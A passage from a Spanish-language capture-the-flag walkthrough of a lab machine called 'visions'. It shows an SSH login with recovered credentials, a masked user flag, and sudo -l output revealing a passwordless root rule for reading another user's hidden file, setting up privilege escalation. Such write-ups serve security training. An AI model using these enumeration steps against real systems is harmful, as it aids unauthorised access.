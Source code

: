 Intentamos aplicar la información de la imagen para logearnos por SSH:

```sh
ssh sophia@192.168.56.23 
sophia@192.168.56.23's password: 
Linux visions 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
sophia@visions:~$
```

Verificamos los archivos:

```sh
sophia@visions:~$ ls -la
total 32
drwxr-xr-x 3 sophia sophia 4096 Apr 19  2021 .
drwxr-xr-x 6 root   root   4096 Apr 19  2021 ..
-rw-r--r-- 1 sophia sophia  220 Apr 19  2021 .bash_logout
-rw-r--r-- 1 sophia sophia 3526 Apr 19  2021 .bashrc
-rwx--x--x 1 sophia sophia 1920 Apr 19  2021 flag.sh
drwxr-xr-x 3 sophia sophia 4096 Apr 19  2021 .local
-rw-r--r-- 1 sophia sophia  807 Apr 19  2021 .profile
-rw------- 1 sophia sophia   18 Apr 19  2021 user.txt
sophia@visions:~$ cat user.txt 
hmvXXXXXXXXXXXXXXXXXXXXXXXXXX
```

Luego de ello buscamos permisos de ejecución:

```sh
sophia@visions:~$ sudo -l
Matching Defaults entries for sophia on visions:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sophia may run the following commands on visions:
    (ALL : ALL) NOPASSWD: /usr/bin/cat /home/isabella/.invisible
```

Traducido al español:

```
Configuraciones predeterminadas coincidentes para sophia en visions:

​ env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

La usuaria sophia puede ejecutar los siguientes comandos en visions:
​ (ALL : ALL) SIN CONTRASEÑA: /usr/bin/cat /home/isabella/.invisible
```
